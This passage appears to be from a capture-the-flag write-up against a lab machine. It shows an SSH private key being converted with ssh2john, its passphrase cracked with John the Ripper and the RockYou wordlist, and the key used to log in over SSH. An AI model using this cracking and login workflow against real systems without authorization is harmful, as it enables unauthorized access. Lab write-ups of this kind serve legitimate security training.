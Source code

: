 ```bash
ssh2john ./id_rsa.txt > id_rsa.hash
```

Now we can run John the Ripper using the "RockYou" wordlist and see if we can crack this password:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash 
```

And sure enough, we find the password:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**********       (./id_rsa.txt)     
1g 0:00:00:00 DONE (2023-08-12 21:07) 25.00g/s 1816Kp/s 1816Kc/s 1816KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We can now use that to try to SSH in, and we get in, but immediately get kicked out!

```bash
$ ssh admin@10.10.10.10 -i ./id_rsa.txt                   

Enter passphrase for key './id_rsa.txt': 
Connection closed by 10.10.176.145 port 22
```

We try again with the username `john` from the main "Panel" page we found and we get in!

```bash
$ ssh john@10.10.10.10 -i ./id_rsa.txt

Enter passphrase for key './id_rsa.txt': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 13 01:13:30 UTC 2023

  System load:  0.0                Processes:           109
  Usage of /:   25.8% of 19.56GB   Users logged in:     0
  Memory usage: 46%                IP address for eth0: 10.10.176.145
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
```
